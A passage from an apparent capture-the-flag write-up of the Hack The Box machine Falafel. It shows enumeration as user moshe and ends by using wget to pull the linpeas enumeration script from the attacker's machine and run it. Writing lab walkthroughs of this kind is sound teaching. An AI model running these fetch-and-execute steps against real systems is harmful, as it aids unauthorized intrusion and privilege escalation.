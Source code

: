 ![image.png]({{ site.baseurl }}/assets/falafel/image%2014.png)

Let’s enumerate through our rights:

```bash
id 

uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)

sudo -l

Sorry, user moshe may not run sudo on falafel.htb.

```

We are part of the adm group, which can read logs. 

Let’s check network information:

```bash
moshe@falafel:~$ ss -lntp
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*       
LISTEN   0         128                 0.0.0.0:80               0.0.0.0:*       
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*       
LISTEN   0         128                    [::]:22                  [::]:*       
moshe@falafel:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.73  netmask 255.255.254.0  broadcast 10.10.11.255
        ether 00:50:56:94:9c:fe  txqueuelen 1000  (Ethernet)
        RX packets 1400630  bytes 235963862 (235.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1361806  bytes 656993013 (656.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 406786  bytes 36149444 (36.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 406786  bytes 36149444 (36.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

Let’s transfer linpeas and execute it.

```bash
wget http://10.10.16.7:8001/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
